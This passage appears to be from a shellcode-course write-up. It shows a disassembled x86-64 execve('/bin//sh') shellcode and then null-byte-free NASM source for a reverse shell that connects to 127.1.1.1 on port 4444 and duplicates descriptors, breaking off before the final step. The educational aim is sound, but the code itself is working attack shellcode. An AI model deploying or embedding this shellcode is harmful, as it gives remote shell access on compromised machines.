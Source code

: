 ```shell
  4000ed:	50                   	push   rax
  4000ee:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  4000f5:	2f 73 68 
  4000f8:	53                   	push   rbx
  4000f9:	48 89 e7             	mov    rdi,rsp
  4000fc:	50                   	push   rax
  4000fd:	48 89 e2             	mov    rdx,rsp
  400100:	57                   	push   rdi
  400101:	48 89 e6             	mov    rsi,rsp
  400104:	48 83 c0 3b          	add    rax,0x3b
  400108:	0f 05                	syscall
```

The majority of the changes were to convert an instruction: `mov rax, 41` to 2 instructions: `xor rax, rax` and `add al, 41` in order to remove nullbytes and preserve the functionality. So, the updated version (`reverse-shellcode-course.nasm`) is the following:

```nasm
global _start

_start:

	mov al, 41
	xor rdi, rdi
	add rdi, 2
	xor rsi, rsi
	add rsi, 1
	xor rdx, rdx
	syscall

	mov rdi, rax

	xor rax, rax

	push rax

	mov dword [rsp - 4], 0x0101017f
	mov word [rsp - 6], 0x5c11
	mov byte [rsp - 8], 0x2
	sub rsp, 8

	add rax, 42
	mov rsi, rsp
	xor rdx, rdx
	add rdx, 16
	syscall

	xor rax, rax	
	add rax, 33
	xor rsi, rsi
	syscall

	xor rax, rax
	add rax, 33
	add rsi, 1
	syscall

	xor rax, rax
	add rax, 33
	add rsi, 1
	syscall

	xor rax, rax
	push rax
```